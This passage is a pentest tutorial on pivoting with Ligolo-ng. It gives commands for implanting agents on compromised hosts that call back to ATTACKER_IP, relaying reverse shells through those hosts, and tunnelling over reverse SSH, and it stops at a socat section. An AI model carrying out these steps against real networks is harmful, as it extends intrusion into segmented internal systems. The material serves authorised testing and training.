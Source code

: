 ```yaml
---
description: >-
  Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to
  establish tunnels from a reverse TCP/TLS connection using a tun interface
  (without the need of SOCKS).
---
```


# Ligolo-Ng : Pivoting use cases

Ligolo-Ng is a unique pivoting tool that allows you to create VPN-like tunnels, enabling direct interaction via target IP addresses instead of using socks proxies. With an interactive CLI interface, you can easily jump from one agent to another without any hassle.

Ligolo-Ng has two parts: a proxy that acts as a C2 interface to locate and select your targets, and also enables listeners on the target machine; and an agent that you implant on the target machine to initiate the VPN connection from the target machine to the attacking machine.

The agent does not require higher privileges on the target machine, so you can use a classic reverse shell to simplify any attacking methodology. With Ligolo-Ng, you can run any tool from your attacking machine against a target machine by closing the network gap between layers of networks.

{% embed url="https://github.com/tnpitsecurity/ligolo-ng" %}
Latest link in github to download ligolo-ng
{% endembed %}

<figure><img src="../../.gitbook/assets/Untitled Diagram (4).jpg" alt=""><figcaption><p>A classic scenario for pivoting use cases</p></figcaption></figure>

### Setting up Ligolo-ng

{% hint style="info" %}
Before running Ligolo-ng, you must create a TUN Interface on the attacker PC so that ligolo can add routes to different sub networks. The idea is that when you have a sub network such as \`192.168.0.0/24\` that is inside the tartget network, you can provide the sub network IP address (which can only be reached from an internal network) to any tool you want.
{% endhint %}

`Creating a Tun Interface`

```bash
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

<details>
<summary>ligolo-setup-script</summary>

```bash
#!/bin/bash
me="$(whoami)"
echo "addling ligolo routes to user: $me"

echo "creating the ligolo tun interface"
sudo ip tuntap add user "$me" mode tun ligolo 
sudo ip link set ligolo up

echo "now adding routes $a $b"
a="172.16.0.0/24"
b="192.168.0.0/24"
c="10.10.0.0/24"
sudo ip route add "$a" dev ligolo
echo "done : $a"
sudo ip route add "$b" dev ligolo
echo "done : $b"
sudo ip route add "$c" dev ligolo
echo "done : $c"

echo "good luck! :)"
```

</details>

Once you have added the TUN Interface and the sub networks that you want to access from the attacker PC, you can now launch ligolo proxy on the attacker PC and the agent on an already compromised host in the internal network.

`Connecting to a Ligolo-Agent`

```bash
# 1. On the attacking machine :
./proxy -laddr <ip>:5555 -selfcert

# 2. On each compromised host with the network that you want to pivot to
./agent -connect <ATTACKER_IP>:5555 -ignore-cert
```

### Agent Binding/Listening

> Agent Binding/listening on ligolo allows you to capture reverse shells from an internal network and forward it through the ligolo connection. You can then launch a netcat/pwncat-cs from the attacking machine seamlessly, give you the impression as if you were already in the target network.

## Ligolo-Ng Pivoting Tutorials / Use Cases

### 1. Accessing the Target Network

Once a connection is establised on the Public Facing Server that is in the Target Network via a reverse shell, it is possible to access/enumerate or exploit any vulnerabilities against a different target in the same network trough ligolo (such as a DMZ) or a target that is in a neighbouring network (in the case of a non-segmented network). This allows an attcker to use their very own tools from the attacking machine.

{% hint style="info" %}
The following method works only when the Target Network has direct access to the attacking machine network, such as in a local network, via port forwarding or a VPN connection. More advanced pivoting techniques will be detailed below. If the attacking machine is in a NAT network, then, port forwarding should implemented.
{% endhint %}

```bash
# 1. Follow the ligolo setup process and start the ligolo proxy on the attacking machine 
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 192.168.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

# This will now route the sub network 192.168.0.0 via the ligolo TUN interface and through the ligolo tunnel
# Allowing you to use any tool from the attacking maching against the new target machine
```

![image](https://user-images.githubusercontent.com/90450439/221353322-0abc5b8e-01dd-491a-b3f7-0a3b050393ac.png)

### 1.1 Forwarding a reverse shell from the Target Network

Using the Ligolo's Agent Binding/Listening feature, it is possible to recieve a reverse shell connection from a target (in the Target Network) that does not have direct access to the attacking machine (ie. an internet/WAN access). An agent in a compromised server that can communicate with the target can also act as a listner, thus allowing to forward reverse shells through the ligolo tunnel back to the attacking machine.

```bash
# 1. Establish an agent in the Public Facing server via ligolo agent

# 2. On the ligolo proxy (on the attacking machine), select the agent

# 3. Provide the following command
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:8899 --tcp

# 4. Launch netcat/pwncat-cs on the attacker machine to recieve the reverse shell

# Flags : --addr 0.0.0.0:1234 (the listener IP and port on the compromised server)
# Flags : --to 127.0.0.1:8899 (the netcat/pwncat-cs listner on the attackers machine)
```

{% hint style="info" %}
In the following example, The reverse shell is initiated from the machine 192.168.0.10 in the target network that do not have direct access to the Attacker machine but to the Public Facing Server. When configuring the reverse shell, the connection must be directed to the Public Facing Server's IP address as it is were the ligolo agent will start it's listner that was initiated via listner\_add.
{% endhint %}

![image](https://user-images.githubusercontent.com/90450439/221354631-dbcb392f-af06-49d8-a63c-c5c03201c2cd.png)

### 1.2. Accessing the Internal Network

It is also possible to implant ligolo agents into deeper levels of the network in an organization inorder to compromise additional servers/devices. This follows the simmilar steps that were described for the Public Facing Server. However, this requires once again a reverse shell in the Internal Network or other sorts of foothold as a low privileged user in the internal network.

```bash
# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 10.10.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect <ATTACKER_IP>:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

# This will now route the sub network 10.10.0.0 via the ligolo TUN interface and through the ligolo tunnel
# Allowing you to use any tool from the attacking maching against the new target machine
```

![image](https://user-images.githubusercontent.com/90450439/224545307-05571c12-31a9-41b7-b8cc-8b4365336e77.png)

### 2. Pivoting Ligolo-Ng with SSH access

In the case where the Target Network as well as the Internal Network has no possibility to contact the attacking machine but via a SSH connection, it is possible to initiate a connection from a ligolo agent implanted in the Public Facing Server via a SSH Reverse tunnel.

To do this, you will first have to initiate a Reverse SSH Connection. This is mainly because the ligolo proxy always listens to connections that are first initiated by the ligolo agent. A reverse ssh connection will allow us to open a port within the Public Facing Server and whatever that connects to that perticular port will then be tunnled trough the SSH connection.

```bash
# Initiate a Reverse ssh connection to the target server

ssh -R 7878:127.0.0.1:1337 user@target_server_ip
```

![image](https://user-images.githubusercontent.com/90450439/224557695-01ad05f3-a9ca-4456-ac94-246f2b3f5228.png)

Once the ssh tunnel is established, now you can transfer the ligolo agent and run the ligolo agent from the target server, simmilar to the steps shown above..

{% hint style="info" %}
The following method allows only a single ligolo agent connection. Due to the nature of the port mapping that is provided in the SSH reverse connection, once a ligolo agent "occupies" a port, it is not possible to use another ligolo agent on the same port.
{% endhint %}

```bash
# On the attacking machine 
./proxy -selfcert -laddr 127.0.0.1:1337

# On the target machine 
./agent -connect 127.0.0.1:7878 -ignore-cert
```

![image](https://user-images.githubusercontent.com/90450439/224558041-d257541d-a8f5-4fdd-9450-e4ef64ae4489.png)

### 2.1 Pivoting Ligolo-Ng with SSH access + SOCAT

In order to avoid initiating multiple SSH connections per ligolo agent connection, you can tunnel these connections through a single SSH connection. To achieve this, we will be using the tool socat.
